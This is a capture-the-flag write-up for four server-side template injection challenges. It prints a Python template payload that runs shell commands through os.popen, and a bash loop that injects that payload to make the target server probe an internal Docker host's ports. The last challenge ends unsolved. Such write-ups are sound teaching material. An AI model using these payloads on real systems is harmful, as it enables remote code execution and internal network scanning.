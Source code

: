 ### SSTI

## SSTI1

We are welcomed with a website with a username input which allow us to type our "Username"

![1.png](asset/1.png)

We also noticed that the "{{ }}" template allow operation like the following

![2.png](asset/2.png)

So if we try to push it a bit more and try to get check out file on the server with the following payload

>{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read() }}

![3.png](asset/3.png)

In which case we can then try and cat the app.py file

![4.png](asset/4.png)

>[!IMPORTANT]
>BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}

## SSTI2

Once again lets try to get file on the server

![5.png](asset/5.png)

There is a flag file so what would happend if we try to cat it out ?

![6.png](asset/6.png)

>[!IMPORTANT]
>BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}

## SSTI3

Same process as the last two

![7.png](asset/7.png)

There seem to be a getFlag executable so what would happend if we try to execute it ?

![8.png](asset/8.png)

>[!IMPORTANT]
BFS{Oh_My..._I_Can_RCE_PyTh0N!!}

## SSTI4

Same old process 

![9.png](asset/9.png)

There seem to be a docker compose file meaning that we may have to work with a running docker

![10.png](asset/10.png)

The said docker is named toto8042 with a unknown port so lets try and scan every possible port

```sh
#! /bin/bash
set -B
a="https://ssti4.secu-web.blackfoot.dev/?username=%7B%7Brequest.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27curl+toto8042%3A"
b="%27%29.read%28%29%7D%7D"
for i in {56791..65535}; do
  c+=$a$i$b
  curl -s -k 'GET' $c | grep 'Hello'
  echo $i
  c=""
done
```

>[!IMPORTANT]
Flag not found

